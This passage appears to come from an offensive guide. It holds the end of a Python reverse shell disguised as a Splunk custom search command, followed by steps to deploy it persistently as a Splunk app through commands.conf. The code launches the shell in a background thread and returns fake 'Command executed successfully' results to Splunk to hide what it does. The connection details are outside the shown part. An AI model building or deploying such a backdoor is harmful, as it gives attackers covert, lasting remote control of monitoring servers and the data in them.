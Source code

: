 ```python
            
            # Start communication threads
            threading.Thread(target=send_data, daemon=True).start()
            threading.Thread(target=receive_data, daemon=True).start()
            
            # Keep main thread alive
            while True:
                time.sleep(60)
                
        except Exception as e:
            log_message(f"Connection failed: {str(e)}")
            retries += 1
            time.sleep(RETRY_DELAY)
            
def main():
    try:
        # Start reverse shell in background thread
        threading.Thread(target=create_reverse_shell, daemon=True).start()
        
        # Return dummy results to Splunk
        results = []
        results.append({"message": "Command executed successfully"})
        splunk.Intersplunk.outputResults(results)
        
    except Exception as e:
        # Handle any exceptions
        log_message(f"Error in main: {str(e)}")
        results = []
        results.append({"error": "Error executing command"})
        splunk.Intersplunk.outputResults(results)

if __name__ == "__main__":
    main()
```

### Deployment Methods

#### 1. Custom Search Command (Persistent)

1. Create a custom Splunk app structure:
```
my_tools/
├── bin/
│   └── reverse_shell.py
├── default/
│   └── commands.conf
├── metadata/
│   └── default.meta
└── README
```

2. In `commands.conf`:
```
[reverse_shell]
filename = reverse_shell.py
chunked = false
enableheader = false
outputheader = false
requires_srinfo = false
supports_getinfo = false
supports_rawargs = true
supports_multivalues = false
```
